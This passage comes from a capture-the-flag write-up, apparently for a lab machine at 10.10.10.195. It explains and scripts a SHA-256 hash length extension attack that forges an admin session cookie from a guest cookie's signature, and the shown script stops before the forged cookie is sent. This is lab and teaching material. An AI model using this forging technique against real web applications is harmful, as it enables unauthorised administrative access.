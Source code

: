 ```python
        admin += char
        print(f"char found: {char}")
    print(f"i: {i}")

print(admin)
```

So we get the hash of `f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105`

#### Hash Length Extension

We now have every part that we need to forge the admin cookie. I will be using the python module `hlextend` \(although `hashpumpy` and others can also be used\).

So how are we going to forge it?

For a hash length extension to work, we need a few parts:

* known data, which is what we have a signature for already; our guest cookie
* appended data, which is what we add on to the known data; this will be the admin cookie \(`username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105`\)
* length of secret, which in our case can be easily brute forced as it's between 9 and 15
* signature for known data, which is the signature for the guest cookie

Putting this all together, we can make a script to iterate through the lengths and test the cookies to see if they work:

```python
#! /usr/bin/python

import hlextend
from base64 import b64decode, b64encode
from binascii import unhexlify, hexlify
from os import system
import urllib
import urllib2

sha = hlextend.sha256()

def fetchcookie():
    url = "http://10.10.10.195/postlogin"
    values = {"username" : "guest", "password" : "guest"}

    data = urllib.urlencode(values)

    req = urllib2.Request(url, data)
    response = urllib2.urlopen(req)
    cookie = response.info().getheader("Set-Cookie")

    sig = cookie.split(".")[1].split(";")[0]
    sig = b64decode(sig)
    sig = hexlify(sig)

    return sig

guestsig = fetchcookie()

append = b";username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;"
prepend = b"username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec;"

url = "http://10.10.10.195/admin"

for length in range(8,16):    # iterates through possible lengths 8-15
    extension = sha.extend(append, prepend, int(length), guestsig, raw=True)    # forms cookie
```